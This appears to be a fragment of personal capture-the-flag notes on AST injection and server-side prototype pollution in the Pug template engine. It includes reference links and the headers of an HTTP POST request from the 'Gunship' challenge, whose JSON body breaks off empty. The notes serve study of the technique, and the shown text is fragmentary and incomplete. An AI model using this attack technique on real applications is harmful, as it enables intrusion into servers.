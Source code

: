 [^1]:  https://blog.p6.is/AST-Injection/

![|1000](../../zzz_res/attachments/ast1.png)

![|1000](../../zzz_res/attachments/ast2.png)

## Pug

Example from [Gunship](https://www.notion.so/Gunship-d7aa8f7841234d1c993ba55c44ab5191) 

```http
POST /api/submit HTTP/1.1
Host: 134.209.28.38:30545
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 185
Connection: close

{
```

[^DOS]: https://portswigger.net/research/server-side-prototype-pollution
[^SSPP-scanner]: https://portswigger.net/bappstore/c1d4bd60626d4178a54d36ee802cf7e8